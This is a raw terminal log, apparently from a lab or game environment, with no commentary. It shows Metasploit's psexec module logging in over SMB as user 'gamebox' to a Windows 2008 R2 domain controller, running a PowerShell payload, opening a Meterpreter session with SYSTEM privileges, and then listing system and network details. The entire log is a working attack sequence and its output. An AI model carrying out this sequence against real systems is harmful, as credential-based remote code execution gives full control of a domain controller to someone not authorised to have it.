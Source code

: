 ```


msf exploit(psexec) > run

[*] 10.0.1.7:445 - Connecting to the server...
[*] Started bind handler
[*] 10.0.1.7:445 - Authenticating to 10.0.1.7:445|gbox as user 'gamebox'...
[*] 10.0.1.7:445 - Selecting PowerShell target
[*] 10.0.1.7:445 - Executing the payload...
[+] 10.0.1.7:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (205379 bytes) to 10.0.1.7
[*] Meterpreter session 6 opened (10.0.0.5-_1_-10.0.0.9:0 -> 10.0.1.7:4444) at 2018-05-31 02:38:04 +0000

meterpreter > sysinfo
Computer        : DC
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : GBOX
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ifconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 11
============
Name         : Microsoft Teredo Tunneling Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::100:7f:fffe
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 13
============
Name         : AWS PV Network Device #0
Hardware MAC : 0a:ee:ba:e9:01:22
MTU          : 9001
IPv4 Address : 10.0.1.7
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::c907:5309:68a2:b1b8
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 14
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a00:107
```